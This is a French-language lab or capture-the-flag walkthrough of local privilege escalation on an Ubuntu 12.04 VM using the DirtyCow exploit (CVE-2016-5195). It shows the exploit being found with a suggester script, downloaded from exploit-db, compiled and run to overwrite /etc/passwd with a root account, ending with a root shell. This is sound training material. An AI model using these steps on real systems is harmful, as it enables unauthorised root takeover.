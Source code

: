 # DirtyCow 2

## On cherche a trouver des `exploit` dans notre machine

On lance [linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) pour avoir une idee des failles a explorer

```shell
$ cat exploit-suggested.txt

Available information:

Kernel version: 3.2.0
Architecture: i386
Distribution: ubuntu
Distribution version: 12.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
...
```

Apres quelque essaie, on trouve que dirtycow 2 fonctionne parfaitement !

## Description

Cette `exploit` utilise comme base le `pokemon exploit of the dirtycow vulnerability` et genere automatiquement un nouveau mot de passe. L'utilisateur sera invite a entrer le nouveau mdp au lancement du binaire. le fichier original `/etc/passwd` sera alors sauvegarder dans `/tmp/passwd.bak` et ecrira pardessus l'utilisateur root. Apres avoir lancer `l'exploit`, on devrait pouvoir de connecter a notre nouvelle utilisateur.

L'utilisateur pas defaut creer s'appelle `firefart`

## Download exploit C file

[DirtyCow](https://www.exploit-db.com/download/40839)

## Process

On repart du `user Laurie` pour se connecter en `ssh`

```shell
$ ssh laurie@192.168.56.104 -p 22
```

### Host

```shell
$ wget https://www.exploit-db.com/download/40839 ; mv 40839 40839.c

$ scp 40839.c laurie@192.168.56.104:~/.
```

### VM

```
$ gcc -pthread -O2 40839.c -lcrypt

$ ./a.out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ su firefart
Password:

firefart:$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
